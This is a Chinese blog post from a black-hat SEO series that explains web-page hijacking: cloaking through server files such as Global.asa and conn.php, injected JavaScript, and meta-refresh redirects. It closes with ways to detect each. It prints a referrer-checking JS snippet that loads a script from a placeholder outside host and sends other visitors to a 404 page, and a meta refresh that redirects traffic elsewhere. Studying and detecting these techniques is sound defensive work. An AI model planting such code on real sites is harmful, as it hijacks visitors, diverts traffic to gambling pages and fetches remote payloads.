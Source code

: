 ```yaml
---
title: 【黑帽SEO系列】网页劫持
date: 2016-10-12 10:25:13
comments: true
tags: 
- 黑帽seo
- 网页劫持
categories: 黑产研究
password:
copyright: true
---
```

　　网页劫持是目前黑帽SEO或者说黑产最喜欢的一种网页引流方式，此手法往往通过入侵政府、教育机构网站（权重高），修改网站源代码、放寄生虫程序、设置二级目录反向代理等实现。网页劫持可以分为服务端劫持、客户端劫持、百度快照劫持、百度搜索劫持等等；表现形式可以是劫持跳转，也可以是劫持呈现的网页内容，目前被广泛应用于私服、博彩等暴利行业。

### 服务端劫持
服务端劫持也称为全局劫持，手法为修改网站动态语言文本，判断访问来源控制返回内容，从来达到网站劫持的目的。
#### asp/aspx/php劫持
　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本， 然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问，则返回正常页面。

### 客户端劫持
客户端劫持的手法也很多，但主要就是2种：js劫持、Header劫持。
#### js劫持
js劫持目的：通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。
js植入手法：可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。
#### js劫持案例
效果：通过搜索引擎搜索点击页面（执行一段js）跳转到博彩页面；直接输入网址访问网页，跳转到404页面。
代码：
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。
#### header劫持
在源代码中写入以下代码：
```bash
<meta http-equiv=“refresh“ content=“10; url=http://thief.one“>
```
利用的就是Meta Refresh Tag（自动转向），将流量引走。

### 手法对比
#### 客户端劫持与服务端区别
客户端劫持：每次访问网页从服务端获取到的网页代码都是相同的，只是控制了网页代码在浏览器中呈现的效果（比如是否进行跳转等）。
服务端劫持：改变了每次访问网页从服务端获取到的网页代码。
#### 客户端劫持与服务端判断方法
客户端劫持的判断方法：只需观察浏览器呈现的网页前端代码，查看是否引用了不当的js，或者其它敏感内容。
服务端劫持的判断方法：可以通过观察网站后端代码，或者通过改变ip，包头等方式，观察放回源码是否不同。

结语：*网页劫持的方法还有很多，我了解的大概只是皮毛，黑帽SEO技术的水很深，前路漫漫。*

### 传送门

>[【黑帽SEO系列】基础知识](http://thief.one/2016/10/09/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/)
[【黑帽SEO系列】暗链](http://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E6%9A%97%E9%93%BE/)
[【黑帽SEO系列】网页劫持](http://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E7%BD%91%E9%A1%B5%E5%8A%AB%E6%8C%81/)
[【黑帽SEO系列】页面跳转](http://thief.one/2016/10/10/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E9%A1%B5%E9%9D%A2%E8%B7%B3%E8%BD%AC/)

